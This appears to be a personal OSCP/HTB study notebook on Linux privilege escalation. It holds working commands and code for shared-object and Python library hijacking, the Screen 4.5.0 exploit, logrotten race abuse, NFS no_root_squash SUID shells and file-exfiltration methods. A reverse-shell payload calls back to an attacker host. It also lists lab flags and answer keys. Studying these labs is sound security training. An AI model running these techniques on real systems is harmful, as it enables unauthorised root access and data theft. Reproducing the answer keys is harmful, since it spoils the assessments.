#### Tags: #SharedLibraries #LDPreload #sudo #Module18

---

### 18.5.5 Shared Object Hijacking

Some SUID binaries load shared libraries from a custom RPATH directory hardcoded at compile time. If that directory is writable, plant a malicious .so with matching function names and the binary loads your code with its elevated UID.

**1. Find SUID binaries and check library dependencies:**
```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

# Check what .so files the binary expects
ldd /home/htb-student/shared_obj_hijack/payroll
# linux-vdso.so.1 => ...
# libcustom.so => not found    <-- missing library: our target
# libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6
```

**2. Find the RPATH (the hardcoded search directory):**
```bash
readelf -d /home/htb-student/shared_obj_hijack/payroll | grep PATH
# 0x000000000000001d (RUNPATH) Library runpath: [/development]
```

**3. Check if the RPATH directory is writable:**
```bash
ls -la /development
# drwxrwxrwx 2 root root 4096 ...   <-- world-writable
```

**4. Write a malicious library with the expected function name:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void dbquery() {
    printf("Malicious library loaded!\n");
    setuid(0);
    system("/bin/sh -p");
}
```
The function name must match what the binary calls. Identify it with `strings /path/to/binary` or `objdump -d`.

**5. Compile into the RPATH directory:**
```bash
gcc -shared -fPIC -nostartfiles -o /development/libcustom.so evil.c
```

**6. Run the SUID binary:**
```bash
/home/htb-student/shared_obj_hijack/payroll
# Malicious library loaded!
# $ id
# uid=0(root)
```

> 📸 Screenshot: `ldd` showing "not found" for libcustom.so, `readelf -d` showing RUNPATH, then running the binary and getting a root shell

> 🔍 **Worth remembering generally:** `ldd --version` tells you the glibc version. If a pre-compiled exploit or .so throws a "version GLIBC_X.XX not found" error, recompile natively on the target. Same lesson as kernel exploits.

> 🔗 **HackTricks -- Shared Library Hijacking (GitHub):** [github.com/HackTricks-wiki/hacktricks/blob/master/linux-hardening/privilege-escalation/ld.so.conf-example.md](https://github.com/HackTricks-wiki/hacktricks/blob/master/linux-hardening/privilege-escalation/ld.so.conf-example.md)

#### Tags: #SharedObjectHijacking #ldd #readelf #RPATH #Module18

---

### 18.5.6 Python Library Hijacking

When a Python script runs with elevated privileges (sudo, cron as root) and imports a library you can control, you can inject your code into that library to run as root. Three methods, in order of how common they appear in labs.

**Method 1: Modify a writable library file (most common)**

Find which file defines the function being imported, then check permissions:
```bash
grep -r "def virtual_memory" /usr/
# /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
# -rw-r--r-- 1 htb-student staff 87657 ...   <-- we own it (or group-writable)
```

Edit the function to inject code before the original logic:
```python
def virtual_memory():
    import os
    os.system('cat /root/flag.txt')   # or reverse shell one-liner
    # ... rest of original function continues ...
```

Trigger it:
```bash
sudo /usr/bin/python3 /home/htb-student/mem_status.py
# HTB{3xpl0i7iNG_Py7h0n_lI8R4ry_HIjiNX}
# Available memory: 87.34%
```

**Method 2: Shadow the library with a local module**

Python checks the script's directory before the system library paths. If the working directory is writable, create a file named after the imported library there:
```bash
echo 'import os; os.system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash")' \
  > /home/htb-student/psutil.py

sudo /usr/bin/python3 /home/htb-student/mem_status.py
/tmp/bash -p    # -p preserves effective UID
```

**Method 3: PYTHONPATH manipulation**

If sudoers has `env_keep+=PYTHONPATH`, plant your module in a controlled dir:
```bash
sudo -l | grep PYTHONPATH

echo 'import os; os.system("/bin/bash")' > /tmp/psutil.py
sudo PYTHONPATH=/tmp /usr/bin/python3 /path/to/script.py
```

> 📸 Screenshot: `ls -l` on the library file showing ownership, then the modified function, then `sudo python3 script.py` printing the flag

> 🔍 **Worth remembering generally:** Method 1 depends on the library file being group-writable (check the group and whether you are in it). Method 2 depends on Python's import order and the CWD being under your control. Check both before giving up.

> 🔗 **HackTricks -- Python Library Hijacking (GitHub):** [github.com/HackTricks-wiki/hacktricks/blob/master/generic-methodologies-and-resources/python/bypass-python-sandboxes/README.md](https://github.com/HackTricks-wiki/hacktricks/blob/master/generic-methodologies-and-resources/python/bypass-python-sandboxes/README.md)

#### Tags: #PythonLibraryHijacking #Python #sudo #Module18

---

### 18.5.7 Vulnerable Services

Running services with their own SUID binaries can have known CVEs independently of the kernel version. A SUID binary owned by a vulnerable daemon gives root without any other precondition.

**Workflow:**
```bash
# Enumerate service versions
dpkg -l | grep <service>                      # Debian/Ubuntu
<binary> --version                            # direct check
find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null | grep -v "^-rwsr-xr-x.*bin"
# Look for anything with a version number embedded in the filename or path
```

**Example: GNU Screen 4.5.0 (CVE-2017-5618 / EDB-41154):**

Screen 4.5.0 is SUID root. The exploit abuses its log file handling to write to `/etc/ld.so.preload`, making the dynamic linker load a malicious shared library on the next binary execution.

```bash
# On Kali
searchsploit "GNU Screen 4.5.0"
# GNU Screen 4.5.0 - Local Privilege Escalation | linux/local/41154.sh
searchsploit -m linux/local/41154.sh
scp 41154.sh user@<TARGET>:/home/user/

# On target
./41154.sh
# ~ gnu/screenroot ~
# [+] First, we create our shell and library...
# [+] Now we create our /etc/ld.so.preload file...
# [+] Triggering...
# #   <- root shell

cat /root/screen_exploit/flag.txt
```

> 📸 Screenshot: `find -perm -4000` showing `/usr/bin/screen-4.5.0`, then 41154.sh output and root shell

> 🔍 **Worth remembering generally:** any SUID binary that is not on the expected distro binary list warrants a `searchsploit <name> <version>` lookup. Service-level SUID vulns are separate from kernel exploits and often easier to exploit reliably.

> 🔗 **Exploit-DB -- GNU Screen 4.5.0:** [exploit-db.com/exploits/41154](https://www.exploit-db.com/exploits/41154)

#### Tags: #VulnerableServices #Screen #CVE #SUID #searchsploit #Module18

---

### 18.5.8 Logrotate Abuse

`logrotate` manages log rotation and runs as root. The `logrotten` tool exploits a race condition (CVE-2016-6321) in older logrotate versions: during the window between logrotate renaming a log file and creating the new one, you can insert a symlink that redirects a root-owned write to a controlled path like `/etc/bash_completion.d/`.

**Conditions needed:**
- logrotate is running as root (normal)
- You have write access to a directory containing a log file that logrotate manages
- The logrotate config uses the `create` option (creates a new file post-rotation: that is the race window)

**Steps:**
```bash
# On Kali: clone and transfer
git clone https://github.com/whotwagner/logrotten.git
scp -r logrotten/ user@<TARGET>:~/

# On target: compile
cd logrotten/
gcc -o logrotten logrotten.c
chmod +x logrotten

# Write a payload (what runs as root during the race)
echo "cat /root/flag.txt > /home/htb-student/flag.txt" > payload
# or for a reverse shell:
echo "bash -i >& /dev/tcp/<KALI_IP>/4444 0>&1" > payload

# Trigger rotation and exploit the race
echo test >> /home/htb-student/backups/access.log
./logrotten /home/htb-student/backups/access.log -p payload

# Logrotten output:
# Waiting for rotating /home/htb-student/backups/access.log...
# Renamed /home/htb-student/backups with /home/htb-student/backups2
# and created symlink to /etc/bash_completion.d
# Waiting 1 seconds before writing payload...
# Done!

# The payload now sits in /etc/bash_completion.d/ and runs as root on next shell start
cat /home/htb-student/flag.txt
# HTB{l0G_r0t7t73N_00ps}
```

What logrotten does: when logrotate fires and renames the log, logrotten races to replace the log directory with a symlink to `/etc/bash_completion.d`. Logrotate writes the new (post-rotation) file into that directory. Scripts in `/etc/bash_completion.d/` execute as root on the next shell startup.

> 📸 Screenshot: logrotten output showing "Renamed ... with ... and created symlink to /etc/bash_completion.d"

> 🔍 **Worth remembering generally:** logrotate abuse is timing-sensitive. You need to trigger it while logrotate is actively rotating. Start your nc listener before triggering. On systems where logrotate runs on a cron timer, you may need to manually write to the log file to cause a rotation.

> 🔗 **logrotten tool:** [github.com/whotwagner/logrotten](https://github.com/whotwagner/logrotten)

#### Tags: #Logrotate #LogRotten #RaceCondition #Module18

---

### 18.5.9 NFS no_root_squash

NFS shares configured with `no_root_squash` do not remap root (uid=0) from connecting clients to `nobody`. If you connect as root from your machine, you are root on the share, and files you create there appear as root on the target.

**1. Enumerate exports from your attack host:**
```bash
showmount -e <TARGET_IP>
# Export list for TARGET:
# /var/nfs/general *
# /tmp             *
```

**2. Mount a share and check for exposed data:**
```bash
sudo mount -t nfs <TARGET_IP>:/var/nfs/general /mnt
ls /mnt
cat /mnt/exports_flag.txt   # if a flag or credential file is world-readable
```

**3. Exploit no_root_squash (when the config has it):**

Check the target's `/etc/exports` syntax: `*(rw,no_root_squash)` is the vulnerable setting.

```bash
# On your Kali as root: write to the share -- your uid=0 maps to uid=0 on target
sudo su -
cp /bin/bash /mnt/
chmod +s /mnt/bash      # set SUID

# On target, as low-priv user:
/mnt/bash -p            # -p preserves eUID (root)
id
# uid=1001(user) gid=1001(user) euid=0(root)
```

> 📸 Screenshot: `showmount -e <target>` listing exports, then `mount -t nfs` and reading the flag

> 🔍 **Worth remembering generally:** even shares without `no_root_squash` can leak data. Credentials, config backups, or flags in world-readable NFS shares are accessible to any user without further escalation.

> 🔗 **HackTricks -- NFS no_root_squash (GitHub):** [github.com/HackTricks-wiki/hacktricks/blob/master/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe.md](https://github.com/HackTricks-wiki/hacktricks/blob/master/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe.md)
> 🔗 **PayloadsAllTheThings -- NFS (GitHub):** [github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#nfs-root-squashing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#nfs-root-squashing)

#### Tags: #NFS #NoRootSquash #Module18

---

### 18.5.10. Skills Assessment (LPE.23)

A 5-step privilege escalation chain on a single host covering enumeration fundamentals.



#### Steps

```bash
# Step 1: hidden files in home directory
ssh htb-student@STMIP
ls -la ~
cat .hidden_file   # or whatever the dotfile is named
# Q1: LLPE{d0n_ov3rl00k_h1dden_f1les!}

# Step 2: command history credentials
cat ~/.bash_history
# Look for: su - <user>, mysql -u ... -p..., etc.
# Switch to that user and read their flag
# Q2: LLPE{ch3ck_th0se_cmd_l1nes!}

# Step 3: adm group = Security log access
id
# Confirms adm group membership
grep -rE "LLPE\{" /var/log/ 2>/dev/null
# Q3: LLPE{h3y_l00k_a_fl@g!}

# Step 4: Tomcat backup config credentials
find /opt /etc /var -name "tomcat-users*" 2>/dev/null
find / -path "*/tomcat*" -name "*.bak" 2>/dev/null
cat /opt/tomcat/conf/tomcat-users.xml.bak
# Contains: username="<user>" password="<pass>"
# Q4: LLPE{im_th3_m@nag3r_n0w}

# Step 5: busctl sudo GTFOBins
sudo -l
# (root) NOPASSWD: /usr/bin/busctl
sudo busctl --verbose
# When less pager opens: press !sh → root shell
cat /root/flag.txt
# Q5: LLPE{0ne_sudo3r_t0_ru13_th3m_@ll!}
```

**Lab Q&A (LPE.23):**

| Q | Answer |
|---|---|
| Q1: Hidden file flag | **LLPE{d0n_ov3rl00k_h1dden_f1les!}** |
| Q2: Bash history credential flag | **LLPE{ch3ck_th0se_cmd_l1nes!}** |
| Q3: adm group log flag | **LLPE{h3y_l00k_a_fl@g!}** |
| Q4: Tomcat backup config flag | **LLPE{im_th3_m@nag3r_n0w}** |
| Q5: busctl sudo root flag | **LLPE{0ne_sudo3r_t0_ru13_th3m_@ll!}** |

#### Tags: #SkillsAssessment #HiddenFiles #BashHistory #admGroup #tomcat #busctl #GTFOBins #Module18

---

### 18.5.11. File Transfers (Linux)

Reference: all Linux download and upload methods, consolidated. Offsec modules scatter these throughout different lab steps.

#### Download Methods

```bash
# wget (most common, always installed)
wget http://KALI_IP/file
wget http://KALI_IP/file -O /path/to/save/file

# curl
curl http://KALI_IP/file -o localfile
curl -O http://KALI_IP/file     # -O = save with server's filename

# Python (when wget/curl unavailable -- restricted targets)
python3 -c "import urllib.request; urllib.request.urlretrieve('http://KALI_IP/file', 'file')"
python -c "import urllib; urllib.urlretrieve('http://KALI_IP/file', 'file')"   # Python 2

# bash /dev/tcp (when no downloader exists at all)
exec 3<>/dev/tcp/KALI_IP/80
echo -e "GET /file HTTP/1.1\r\nHost: KALI_IP\r\nConnection: close\r\n\r\n" >&3
cat <&3 > file   # includes HTTP headers -- strip them if needed

# SCP from Kali to target (when SSH access exists)
scp /path/to/file user@TARGET_IP:~/
scp -r /local/dir user@TARGET_IP:~/
```

#### Upload Methods

```bash
# SCP from target to Kali
scp /path/to/file kali@KALI_IP:~/

# nc pipe -- when SSH unavailable
# On Kali (receiver):
nc -lp 9999 > received_file

# On target (sender):
nc -w 3 KALI_IP 9999 < file_to_send

# curl upload to uploadserver
pip3 install uploadserver && python3 -m uploadserver 8080   # on Kali
curl -F 'files=@/path/to/file' http://KALI_IP:8080/upload   # on target
```

> 🔧 **Technique:** nc file pipes have no progress indicator. Verify integrity after transfer with `md5sum file` on both ends -- values must match.

**Skills Assessment Answers (FT.8 Linux slice):**

| Task | Answer |
|---|---|
| Download flag.txt via Python urllib from web root | **5d21cf3da9c0ccb94f709e2559f3ea50** |
| Upload zip, unzip, run hasher on txt | **159cfe5c65054bbadb2761cfa359c8b0** |

**Linux upload chain:** `nc -lp 9999 > upload_nix.txt` on target + `nc -w 3 TARGET 9999 < upload_nix.txt` on Kali → `hasher upload_nix.txt` on target.

#### Tags: #FileTransfers #Linux #wget #curl #Python #BashTCP #scp #netcat #ncPipe #uploadserver #Module18

---

## 18.6 Wrapping Up

The Linux privesc decision tree, from initial shell to root:



**External resources:**
> 🔗 **GTFOBins:** [gtfobins.github.io](https://gtfobins.github.io/) -- SUID, Sudo, Capabilities, shell escapes for every common Unix binary. First stop for any non-standard binary.
> 🔗 **g0tmi1k Linux PrivEsc compendium:** [blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) -- the classic reference, still accurate and thorough.
> 🔗 **PayloadsAllTheThings -- Linux Privilege Escalation (GitHub):** [github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
> 🔗 **HackTricks -- Linux Local Privilege Escalation (GitHub):** [github.com/HackTricks-wiki/hacktricks](https://github.com/HackTricks-wiki/hacktricks) -- search "linux local privilege escalation"
> 🔗 **LinPEAS releases (GitHub):** [github.com/carlospolop/PEASS-ng/releases](https://github.com/carlospolop/PEASS-ng/releases)
> 🔗 **LinEnum (GitHub):** [github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

> 🎬 **[ippsec.rocks: "linux privilege escalation"](https://ippsec.rocks/?#linux%20privilege%20escalation)** -- search "cron" for cron job abuse walkthroughs; "suid" for SUID binary exploitation; "sudo" for sudo escalation boxes
> 🎬 **[ippsec.rocks: "linpeas"](https://ippsec.rocks/?#linpeas)** -- boxes where LinPEAS identifies the initial vector

---

## 🎯 Related Boxes to Practice

**Technique-genuine boxes (core privesc techniques from this module):**
- **[[4. Snookums|Snookums]]** (PG Practice, Linux, Medium — done ✅): `/etc/passwd` **owned by the web app user** (not world-writable). Append a UID-0 entry with a known hash, `su` to root. Snookums is the cleaner example than a world-writable /etc/passwd — the distinction between owner-write and world-write matters. Uses [[PrivEsc Linux - Writable Passwd]] stage note.
- **HTB Cronos** -- classic cron job abuse: web foothold, then a writable root-owned cron task; direct repetition of 18.3.1
- **HTB Nibbles** -- sudo abuse: user can run a world-writable monitor script as root without a password; combines 18.3.1 and 18.4.2
- **HTB Shocker** -- ShellShock CGI foothold, then sudo Perl NOPASSWD, GTFOBins for root; covers 18.4.1 capabilities/SUID approach and 18.4.2 sudo
- **HTB Traverxec** -- Nginx config credential leaks to SSH access, then journalctl NOPASSWD sudo, GTFOBins shell escape; sudo abuse with a less obvious binary (18.4.2)
- **HTB OpenAdmin** -- sudo nano NOPASSWD, GTFOBins shell escape from nano; straightforward 18.4.2 repetition
- **HTB Valentine** -- Heartbleed leaks an SSH private key from memory, then tmux session hijack for root; dotfile and session enumeration pattern from 18.2.1

- **[[8. Zenphoto|Zenphoto]]** (PG Practice, Linux, done ✅): Ubuntu 10.04, kernel 2.6.32-21-generic. SUID nothing exploitable, sudo requires password. Kernel LPE via CVE-2010-3904 / EDB-15285 (RDS Protocol). Compiled on target with gcc. Classic old-kernel-as-last-resort path. Technique: [[PrivEsc Linux - Kernel]].
- **[[7. Nibbles|Nibbles]]** (PG Practice, Linux, done ✅): SUID `/usr/bin/find` - `find . -exec /bin/bash -p \; -quit` for euid=0. Textbook SUID find exploit from [[18. Linux Privilege Escalation#SUID|18.x SUID section]]. Technique: [[PrivEsc Linux - SUID]].
- **[[9. Nukem|Nukem]]** (PG Practice, Linux, done ✅): SUID `/usr/bin/dosbox` — not in GTFOBins, requires lateral thinking. DOSBox is a DOS emulator; `-c 'mount c /etc'` maps `/etc` as DOS C: drive, then `-c 'echo USER ALL=(ALL) NOPASSWD: ALL > c:\sudoers'` writes to `/etc/sudoers` as root. `sudo -n bash` → root. Key insight: any SUID-root binary that can write files can write to `/etc/sudoers`. DOSBox's DOS `echo >` is the mechanism. Cleanup requires restoring sudoers from the pacman package archive. Technique: [[PrivEsc Linux - SUID]].
- **[[6. Pebbles|Pebbles]]** (PG Practice, Linux, done ✅): MySQL root creds in `/etc/zm/zm.conf`. MySQL running as OS root. `lib_mysqludf_sys.so` UDF - `sys_exec()` used to create SUID bash at `/tmp/rootbash`. Classic MySQL-as-root privilege escalation pattern. Technique: [[PrivEsc Linux - UDF]].
- **[[10. Cockpit|Cockpit]]** (PG Practice, Linux, done ✅): **sudo tar wildcard injection.** Rule: `(ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *`. Created `--checkpoint=1` and `--checkpoint-action=exec=bash privesc.sh` as filenames in CWD — tar treated them as flags and ran the script as root → SUID bash → root shell. Key gotcha: `exec=scriptname` fails without `bash` prefix (executor doesn't search CWD); `exec=bash scriptname` works. Technique: [[PrivEsc Linux - Tar Wildcard]].

**Adjacent-workflow boxes (enumeration and credential patterns from 18.1-18.2):**
- **HTB Bashed** (done) -- scriptmanager sudo, writable cron directory; covered the sudo + cron combo already
- **HTB Beep** (done) -- multiple sudo entries, GTFOBins-style escalation; good reference for how varied sudo -l output can be
- **HTB Postman** -- Redis write SSH key, then webmin CVE or sudo apt; credential hunting and sudo escalation combined

**Search guidance:**
- `ippsec.rocks` -- search "cron privilege escalation", "suid linux", "sudo gtfobins" for walkthroughs per technique
- TJNull's OSCP prep list -- the Linux section covers cron, SUID, sudo, and kernel escalation boxes
- Offsec PG Practice -- filter for Linux boxes tagged "privesc" or "misconfiguration"

#### Tags: #RelatedBoxes #HTBCronos #HTBNibbles #HTBShocker #HTBTraverxec #HTBOpenAdmin #HTBValentine #LinuxPrivesc #Module18

---

## **Outstanding Sections**

- [x] **18.1.1 Understanding Files and User Privileges on Linux:** done (rwx model, owner/group/others table, file vs directory permission differences, /etc/shadow example, permission diagram)
- [x] **18.1.2 Manual Enumeration:** done (14-step checklist including SUID, SGID, script hunting, cron, network, kernel modules; quiz answers: codename=buster, crontab flag=-l, SUID for the mechanism Q; VM#1 flag OS{b6eb1b203002b9d722537f581d42567c} via strings on /usr/bin/passwd_flag)
- [x] **18.1.3 Automated Enumeration:** done (unix-privesc-check standard mode, LinPEAS, LinEnum; VM#1 flag OS{3bc7a751241f4e88f5f18f7d2e67fcb2} -- world-writable /etc/sudoers)
- [x] **18.2.1 Inspecting User Trails:** done (dotfiles, env vars, .bashrc, application config files including wp-config.php, crunch wordlist, hydra SSH brute force; VM#2 flag OS{cc74dc4e61542e49c29c4ee8ae29bf22})
- [x] **18.2.2 Inspecting Service Footprints:** done (watch -n 1 ps aux, tcpdump loopback, AppArmor note; VM#1 flag OS{3ca97f75b16e0d92801f8fbebb395733})
- [x] **18.3.1 Abusing Cron Jobs:** done (syslog CRON grep, script permission check, mkfifo reverse shell injection; VM#2 flag OS{9e0df5dce22d6a78ecfde18e80626eee})
- [x] **18.3.2 Abusing Password Authentication:** done (/etc/passwd world-writable, openssl passwd, root user injection; VM#2 flag OS{581fdef8acf64f495d004643effd2a77})
- [x] **18.4.1 Abusing Setuid Binaries and Capabilities:** done (eUID concept, SUID bit, getcap, cap_setuid+ep, cap_dac_override via vim.basic; VM#2 flag OS{4c2b0905e576c6e46289187d9a63904c})
- [x] **18.4.2 Abusing Sudo:** done (sudo -l, AppArmor, apt-get changelog GTFOBins, sudo -u#-1 bypass CVE-2019-14287, ncdu/busctl pager escapes; VM#2 flag OS{0b6427c20ed7cead6c83a8d61625571c})
- [x] **18.4.3 Exploiting Kernel Vulnerabilities:** done (searchsploit, compile on target, CVE-2017-16995, PwnKit CVE-2021-4034, Dirty Pipe CVE-2022-0847)
- [x] **18.5.1 Path Abuse:** done (echo $PATH, non-standard writable dir, plant binary named after command, wait for cron) -- *HTB supplementary*
- [x] **18.5.2 Escaping Restricted Shells:** done (rbash detection, SSH --noprofile bypass, editor escapes, scripting language escapes) -- *HTB supplementary*
- [x] **18.5.3 Privileged Groups:** done (adm/lxd/docker/disk/shadow group table, lxd container escape, docker socket escape, adm log grep) -- *HTB supplementary*
- [x] **18.5.4 Shared Libraries and LD_PRELOAD:** done (env_keep+=LD_PRELOAD, _init() payload, gcc -fPIC -shared -nostartfiles, sudo LD_PRELOAD exploit) -- *HTB supplementary*
- [x] **18.5.5 Shared Object Hijacking:** done (ldd missing .so, readelf RUNPATH, writable RPATH dir, compile malicious .so, SUID binary loads it) -- *HTB supplementary*
- [x] **18.5.6 Python Library Hijacking:** done (three methods: writable lib file, local shadow module, PYTHONPATH manipulation) -- *HTB supplementary*
- [x] **18.5.7 Vulnerable Services:** done (Screen 4.5.0 CVE-2017-5618, EDB-41154, ld.so.preload abuse via SUID service binary) -- *HTB supplementary*
- [x] **18.5.8 Logrotate Abuse:** done (logrotten race condition, compile, payload, trigger rotation, /etc/bash_completion.d symlink attack) -- *HTB supplementary*
- [x] **18.5.9 NFS no_root_squash:** done (showmount -e, mount -t nfs, no_root_squash root mapping, SUID shell via mount) -- *HTB supplementary*
- [x] **18.6 Wrapping Up:** done (decision flowchart, external resources, related boxes)

- [x] **18.1.2.1 Environment and System Basics:** done (os-release, uname, lscpu, env vars, dpkg, LPE.1-2 Q&A)
- [x] **18.1.2.2 Script Hunting:** done (find *.sh + xargs grep, LPE.1 flag)
- [x] **18.1.2.3 Services and Listening Ports:** done (ss -lntp, netstat, /proc env, LPE.2 Q&A)
- [x] **18.2.1.1 App Config File Hunting:** done (wp-config.php, .conf/.php sweeps, .bak files, Tomcat, LPE.3 Q&A)
- [x] **18.2.1.2 Shell History and SSH Keys:** done (.*history files, id_rsa/pem key hunt)
- [x] **18.3.1.1 World-Writable Cron Script Direct Append:** done (bash redirect append, LPE.11 Q&A)
- [x] **18.5.10 Skills Assessment:** done (5-step chain: hidden files → bash history → adm logs → Tomcat .bak → busctl sudo, all LPE.23 Q&A)
- [x] **18.5.11 File Transfers (Linux):** done (wget, curl, Python, bash /dev/tcp, scp, nc pipe, curl upload, FT.8 Linux answers)

**Module 18 complete. All core Offsec labs done. HTB supplementary content (Linux PrivEsc + File Transfers Linux slice) fully interleaved. Hub-doc sync is a separate later phase.**

Flags collected:
- 18.1.2 VM#1: OS{b6eb1b203002b9d722537f581d42567c}
- 18.1.3 VM#1: OS{3bc7a751241f4e88f5f18f7d2e67fcb2}
- 18.2.1 VM#2: OS{cc74dc4e61542e49c29c4ee8ae29bf22}
- 18.2.2 VM#1: OS{3ca97f75b16e0d92801f8fbebb395733}
- 18.3.1 VM#2: OS{9e0df5dce22d6a78ecfde18e80626eee}
- 18.3.2 VM#2: OS{581fdef8acf64f495d004643effd2a77}
- 18.4.1 VM#2: OS{4c2b0905e576c6e46289187d9a63904c}
- 18.4.2 VM#2: OS{0b6427c20ed7cead6c83a8d61625571c}
- 18.4.3 VM#2: OS{afdd54c4978e0e34014e82e75cf4284f}
- 18.4.3 VM#3: OS{c5fb9839877a429f39607f59e58d4733}
- 18.4.3 VM#4: OS{4768b2c127c0c5a3f26728237e8c5e77}
- 18.4.3 VM#5: OS{a5f462ceb1f60973d7824b84299a2829}
## External Resources

- [HackTricks - Pentesting Index](https://hacktricks.wiki/en/index.html)
- [PayloadsAllTheThings - Methodology and Resources](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
- [GTFOBins](https://gtfobins.github.io/) for Unix binary abuse where applicable
- [RevShells](https://www.revshells.com/) for shell payloads where applicable
- [CyberChef](https://gchq.github.io/CyberChef/) for encoding and decoding
- [ippsec.rocks](https://ippsec.rocks/) for practical walkthrough searches
## RUNBOOK V2 Stages

- [[RUNBOOK V2/Linux - Service Scan]]
- [[RUNBOOK V2/Linux - Local Enum]]
- [[RUNBOOK V2/Linux - Sudo Check]]

## Hub Docs

- [[METHODOLOGY CHEAT SHEET/METHODOLOGY CHEAT SHEET]]
- [[COMMAND APPENDIX/COMMAND APPENDIX]]
- [[DECISION TREE/DECISION TREE]]
- [[COMMAND BREAKDOWNS/COMMAND BREAKDOWNS]]

## Related Boxes

- [[OSCP/BOXES/WRITE UPS/Windows/Jerry|Jerry]] -- Windows service and web foothold
- [[OSCP/BOXES/WRITE UPS/Windows/MarkUp|MarkUp]] -- Windows privilege escalation
- [[OSCP/BOXES/WRITE UPS/Windows/Servmon|Servmon]] -- service and token abuse
## Why this matters for OSCP

This page matters because it turns a repeatable assessment task into a clear, reviewable habit for the OSCP exam.
